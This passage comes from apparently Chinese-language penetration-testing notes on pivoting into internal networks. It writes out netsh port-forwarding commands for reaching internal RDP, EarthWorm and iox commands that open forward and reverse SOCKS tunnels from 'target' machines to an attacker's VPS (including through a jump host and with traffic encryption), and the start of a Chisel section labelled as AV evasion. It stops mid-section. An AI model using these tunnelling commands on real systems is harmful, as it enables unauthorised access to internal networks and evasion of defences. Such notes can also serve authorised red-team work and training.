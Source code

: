 然后本地走sock4代理60020端口
<a name="uoXdx"></a>
## Netsh端口转发
Win10访问win7(192.168.10.153)，win7内网有个win3（10.0.0.2）<br />Win7操作：netsh interface portproxy add v4tov4 listenaddress=192.168.10.153 listenport=8888 connectaddress=10.0.0.2 connectport=3389<br />然后访问win7公网的8888端口即可<br /> <br />Netsh interface portproxy show all （查看侦听和连接的端口）<br /> <br />netsh interface portproxy delete v4tov4 listenaddress=192.168.10.153 listenport=8888（关闭端口）<br /> <br /> <br /> <br /> 
<a name="Eq0Fh"></a>
## EW流量转发(好用，可跨平台)
正向代理 ：<br />靶机 Ew_for_Win.exe -s ssocksd -l 8002   （不是i的大写）是L的小写<br />主机 直接用proxifier工具对靶机的公网和8002的socks5版本进行连接<br /> <br /> <br />反向代理：<br />Vps 执行ew_for_Win.exe -s rcsocks -l 1080 -e 8888              <br />靶机 Ew_for_Win.exe -s rssocks -d vps的ip -e 8888<br />本地proxifier配置vps的ip和1080端，即可实现<br /> <br />在linux下执行文件可能要先赋予这个文件夹超级权限。<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611333801874-eb423a3e-211f-4bf0-8e5d-c48fc66c64b4.png#align=left&display=inline&height=62&originHeight=123&originWidth=810&size=36019&status=done&style=none&width=405)<br />执行的时候还有加上./不然会说你command not found<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611333817691-f3bb93b1-9e3b-42a8-811e-523bd883412a.png#align=left&display=inline&height=119&originHeight=238&originWidth=1067&size=179373&status=done&style=none&width=533.5)


![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611585619643-4ef4eb14-6203-4662-935b-8a0e6651cff8.png#align=left&display=inline&height=380&originHeight=506&originWidth=806&size=45101&status=done&style=none&width=605)<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611585584665-ec9b2046-90cf-492c-ae34-b923af5a57cd.png#align=left&display=inline&height=367&originHeight=489&originWidth=717&size=78833&status=done&style=none&width=538)

a.在vps运行：ew_for_win.exe -s rcsocks -l 1080 -e 8888

b.在出网机器A运行：ew_for_win.exe -s lcx_tran -l 9999 -f vps_ip -g 8888

c.在目标B运行：ew_for_win.exe -s rssocks -d A_ip -e 9999

<a name="o02mz"></a>
## Iox
正向<br />目标机器上开启Socks5服务:<br />iox.exe proxy -l 1080<br />然后proxifier直接连接就行<br />反向<br />Vps启动<br />root@kali:~# ./iox proxy -l 8888 -l 1080<br /> <br />目标机<br />Iox proxy -r vps的ip:8888<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611333859284-90a844e1-889f-4210-af2f-4b9de6cb5015.png#align=left&display=inline&height=68&originHeight=136&originWidth=1039&size=17490&status=done&style=none&width=519.5)<br />然后proxifier直接连接vps的ip+1080端口<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611333872906-42df056e-0ec6-4c13-8803-c0d22b7713a4.png#align=left&display=inline&height=228&originHeight=456&originWidth=1014&size=104061&status=done&style=none&width=507)<br />流量加密

> vps:
>  ./iox proxy -l *9999 -l 1080 -k 000102
> 
> 跳板机：
>  ./iox proxy -r *172.20.10.3:9999 -k 000102


<a name="UBOUs"></a>
## Chisel(免杀)
[https://github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases)<br /> <br />公网主机上启动 chisel server
